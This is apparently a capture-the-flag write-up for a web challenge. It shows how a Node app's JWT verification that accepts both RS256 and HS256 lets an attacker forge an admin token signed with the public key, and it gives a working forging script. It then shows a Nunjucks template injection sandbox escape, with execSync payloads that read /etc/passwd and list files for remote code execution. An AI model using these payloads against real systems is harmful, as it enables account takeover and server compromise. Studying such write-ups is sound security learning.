

# Naughty Or Nice Web Challenge - JWT Confusion and SSTI

## TL;DR:

Getting the flag on this challenge requires two separate steps. First, we must obtain access to the `admin` account by
exploiting a flaw in the JWT verification process. Once inside the `admin` account, we are able
to edit the "Naughty and Nice" list displayed on homepage. We can leverage a Server Side Template Injection (SSTI) vulnerability
to obtain remote code execution and read the flag.

## Recon:

Navigating to the site, we are greeted with a "Naughty Or Nice" list and the option to navigate to a sign-in page.


The sign-in page allows us to register for an account and use our credentials to login. Once logged in,
we are redirected to the `/dashboard` endpoint. This endpoint displays a message saying that we "shall not pass".


A quick glance at the code in `/challenge/routes/index.js` shows the following for a the `/dashboard` endpoint:

```js
router.get("/dashboard", AuthMiddleware, async (req, res) => {
  return db
    .getUser(req.data.username)
    .then((user) => {
      if (user.username == "admin") return res.render("admin.html");
      res.render("dashboard.html", { user });
    })
    .catch(() => res.status(500).send(response("Something went wrong!")));
});
```

This shows that if we are the `admin` user, then we will get routed to the Admin dashboard. Otherwise we recieve unauthorized page shown above. 

## Getting Admin:

??? "A Quick Rabbit Hole - SQL Injection"
    Initially I thought that we were to attack the `admin` authentication process. Looking at the code, we can see that `login` requests
    are initially routed to a database handler, as shown below with the call to `db.loginUser(username, password).` 

    ```js
    router.post("/api/login", async (req, res) => {
      const { username, password } = req.body;

      if (username && password) {
        return db
          .loginUser(username, password)
          .then((user) => {
              JWTHelper.sign({ username: user.username }).then((token) => {
                res.cookie("session", token, { maxAge: 43200000 });
                res.send(response("User authenticated successfully!"));
              });
            })
          .catch(() =>
            res.status(403).send(response("Invalid username or password!"))
          );
      }
      return res.status(500).send(response("Missing parameters!"));
    });
    ```
    Being that the web-app uses a SQL database, we might initially think that we could leverage a SQL injection to obtain access to the `admin` account.
    However, looking at the `loginUser` function in `database.js`, we see the following:
    ```js
    async loginUser(user, pass) {
      return new Promise(async (resolve, reject) => {
        try {
          let stmt = await this.db.prepare(
            "SELECT username FROM users WHERE username = ? and password = ?"
          );
          console.log(stmt);
          resolve(await stmt.get(user, pass));
        } catch (e) {
          reject(e);
        }
      });
    }
    ```
    The query uses `?` placeholders, and thus is safe from SQL injection. For more information about safe practices when using Node and SQL, 
    checkout out [this](https://www.veracode.com/blog/secure-development/how-prevent-sql-injection-nodejs) post from Veracode.

Once logged in, we get a JWT token.


Using [jwt.io](https://jwt.io) we can see in the decoded JWT that it is using `RS256` and the data section contains our username and a public key.


Back in the code base, we find `JWTHelper.js` in the `/challenge/helpers/` directory. It contains the code to both create and verify the JWT tokens the web-app uses. 

```js
const jwt = require('jsonwebtoken');
const NodeRSA = require('node-rsa');

const keyPair = new NodeRSA({b: 512}).generateKeyPair();
const publicKey = keyPair.exportKey('public')
const privateKey = keyPair.exportKey('private')

module.exports = {
	async sign(data) {
		data = Object.assign(data, {pk:publicKey});
		return (await jwt.sign(data, privateKey, { algorithm:'RS256' }))
	},
	async verify(token) {
		return (await jwt.verify(token, publicKey, { algorithms: ['RS256', 'HS256'] }));
	}
}

```

### JWT Signing:

Lets break down the `sign` function first. It gets passed a data parameter which, looking back at the `/routes/index.js`, we see in the handler for a POST 
request to the `/login` endpoint has the following format:

```js
JWTHelper.sign({ username: user.username })
```

On the first line of the function, we see the public key is added to the data object. Next, the `sign` function from the `jsonwebtoken` package called.
Referring to the documentation, this has a function signature of `jwt.sign(payload, secretOrPrivateKey, [options, callback])`, and we are therefore 
returning a JWT token that has our username and public key as the data,
signed by a private key known only to the server, using the `RS256` algorithm. Seems fairly secure.

### JWT Verify:

Next lets take a look at `verify`. Here we are given a token as the parameter and return the result of the `verify` function from the `jsonwebtoken` package. Again referencing
the documentation, we see that `jsonwebtoken`'s verify function has the following function signature: `jwt.verify(token, secretOrPublicKey, [options, callback])`.
This lines up with what we would expect, as we see this function being passed our JWT token and the server's public key. However, in our code base, we see the `options` parameter can verify a token that 
uses **either** `RS256` or `HS256`.
```js
		return (await jwt.verify(token, publicKey, { algorithms: ['RS256', 'HS256'] }));
```


!!! note "RS256 vs HS256"

    `RS256` uses asymmetric encryption. This means that a public key is used for encryption, and a private key is used for decryption. `HS256`, on the other hand, uses
    symmetric encryption. This means the **same** key is used for both encryption and decryption. 

### Creating an Admin JWT:
Based on what we observed above, we now have all the information we need to create a verified `admin` JWT token. The public token is known to us, as it is provided within the `data` section of the JWT. Within the `jwt.verify`
function, the public key is supplied as the `secretOrPublicKey` parameter. When the JWT header specifies that the algorithm is `RS256`, `jwt.verify` interprets the `secretOrPublicKey` parameter as a public key. 
However, if the JWT specifies the algorithm `HS256` in the header, then the `jwt.verify` function interprets the `secretOrPublicKey` as a secret! Thus if a token using `HS256` and signed by our public key was passed to the `verify` function,
it would pass!

This `verify` function is called in AuthMiddleware like so:
```js
	return JWTHelper.verify(req.cookies.session)
		.then(username => {
			req.data = username;
			next();
		})
		.catch((e) => {
			console.log(e);
			res.redirect('/logout');
		});

```

So we can see, once the JWT is verified, the logged in user is determined by the `username` field in the data section of the JWT.

Therefore, we can use the following script to create an `admin` JWT:

```js
const jwt = require("jsonwebtoken");

publicKey = "-----BEGIN PUBLIC KEY-----\nMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAtCKM9IX5ZlUs8hWTEa75\neu6mU09aoHm5jd36mDjaopQ8alaWcHykhVXXsd9Dfp+m86cV4zIbmH4FnZGw2wQT\nPEv824kR4amWL9X2/7TCu6jgM0SQuA+E7KJvMJTf8ycLqdwx3TQFQVAE35zzlvAw\n+MdONz1uQWXh2f6tz6oT+eD/CLd5rJRjxVyraykECcYBDAjOtOjU5NcnTiwU1t2z\nJ6kOkPlG6t7f5zJ8QnHFByIRDKqsRjCo/2cIdLToBaINt85lZy0j5EyWRM+Sfk6b\nNG+CCmR7v1dE2dUIJ5IeXqQ/KSyOxSV0RNbtp9f5pwilaOG+gFeAPAxW0B3PS/cQ\neQIDAQAB\n-----END PUBLIC KEY-----"

data = {'username': 'admin'}
data = Object.assign(data, {pk:publicKey});
key = jwt.sign(data, publicKey, { algorithm:'HS256' })
console.log(key)
```


If we decode our new JWT, we now see the following:


Go back to the web-app, and set our cookie to the new JWT.


Refresh, and we are in the `admin` dashboard!


## Getting The Flag

Now we are in the admin dashboard, but we need full code execution in order to obtain the flag. From the dashboard, we have the ability to edit the
"Naughty or Nice" list displayed on the landing page. The card on the landing page that displays the list has a helper, `CardHelpers.js` in the `/challenge/helpers/` directory.

```js

const nunjucks   = require('nunjucks');

module.exports = {
	async generateCard(elfList) {
		return new Promise(async (resolve, reject) => {
			try {
				let NaughtyNames = NiceNames = '<br>';
				for(elfData of elfList) {
					if (elfData.type == 'naughty') {
						NaughtyNames = `${NaughtyNames}\n${elfData.elf_name}<br>`;
					}
					else if (elfData.type == 'nice') {
						NiceNames = `${NiceNames}\n${elfData.elf_name}<br>`;
					}
				}
				card = `
					
					
					<div class="card">
						<div class="card-page cart-page-front">
							<div class="card-page cart-page-outside"></div>
							<div class="card-page cart-page-inside">
							<p><span class='nheader green'>Nice List</span>
								${NiceNames}
							</p>
							</div>
						</div>
						<div class="card-page cart-page-bottom">
							<p><span class='nheader red'>Naughty List</span>
								${NaughtyNames}
							</p>
						</div>
					</div>
					
				`;
				resolve(nunjucks.renderString(card));
			} catch(e) {
				reject(e);
			}
		})
	}
};
```
### Nunjucks SSTI and Sandbox Escape:

Here, we see the code base is leveraging Nunjucks to help render the card. [Nunjucks](https://mozilla.github.io/nunjucks/) is a templating engine specifically for
JavaScript, which immediately makes me think this might be some sort of template injection vulnerability. We can do a quick test to confirm. 

First, we edit one of the items to contain `{{7*7}}`.


Navigating back to the homepage, we see that the our `{{7*7}}` payload renders as `49`, confirming that we have found a Server Side Template Injection!


If we continue to poke around on Google, we find some research has already been done on SSTI within Nunjucks. Nunjucks template code runs in a sandbox, so in order to get RCE we 
need to break out of that sandbox and access the underlying OS. If you are interested in how this sandbox escape works, checkout the pre-existing research that I used as a reference during this challenge - 
[SANDBOX BREAKOUT - A VIEW OF THE NUNJUCKS TEMPLATE ENGINE](http://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine). From that article, 
we see the researchers obtained RCE with the following command:

```js
{{range.constructor("return global.process.mainModule.require('child_process').execSync('tail /etc/passwd')")()}}
```

Modifying this payload, we can obtain the flag!

### Final Payload:

First, we run 

```js
{{range.constructor("return global.process.mainModule.require('child_process').execSync('ls /')")()}}
```


We see the flag here, and we can change the payload to `cat` it out!


   


    


